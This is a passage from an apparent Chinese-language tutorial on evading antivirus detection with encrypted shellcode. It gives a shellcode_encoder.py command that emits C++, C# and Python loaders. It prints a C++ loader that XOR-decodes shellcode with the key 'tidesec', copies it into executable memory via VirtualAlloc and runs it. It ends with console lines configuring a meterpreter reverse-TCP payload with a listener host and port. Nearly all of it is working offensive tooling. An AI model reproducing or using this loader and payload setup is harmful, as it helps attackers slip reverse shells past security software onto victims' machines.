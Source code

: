 ```
python shellcode_encoder.py -cpp -cs -py shellcode.raw threekiii xor
```

生成了三个文件，一个为C++源码，也是下面要用到的，一个为C#源码，可以使用csc.exe进行加载，还有一个py文件，可直接执行也可以编译成py-exe执行。

![image-20220530145037208](./images/202205301450337.png)

其中`encryptedShellcodeWrapper_xor.cpp`文件中的C++源码如下，稍作修改，删除依赖库：

```c
/*
Author: Arno0x0x, Twitter: @Arno0x0x
*/

// 删除#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char **argv) {

    // Encrypted shellcode and cipher key obtained from shellcode_encoder.py
    char encryptedShellcode[] = "";
    char key[] = "tidesec";
    char cipherType[] = "xor";

    // Char array to host the deciphered shellcode
    char shellcode[sizeof encryptedShellcode];


    // XOR decoding stub using the key defined above must be the same as the encoding key
    int j = 0;
    for (int i = 0; i < sizeof encryptedShellcode; i++) {
        if (j == sizeof key - 1) j = 0;

        shellcode[i] = encryptedShellcode[i] ^ key[j];
        j++;
    }

    // Allocating memory with EXECUTE writes
    void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // Copying deciphered shellcode into memory as a function
    memcpy(exec, shellcode, sizeof shellcode);

    // Call the shellcode
    ((void(*)())exec)();
}
```


[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate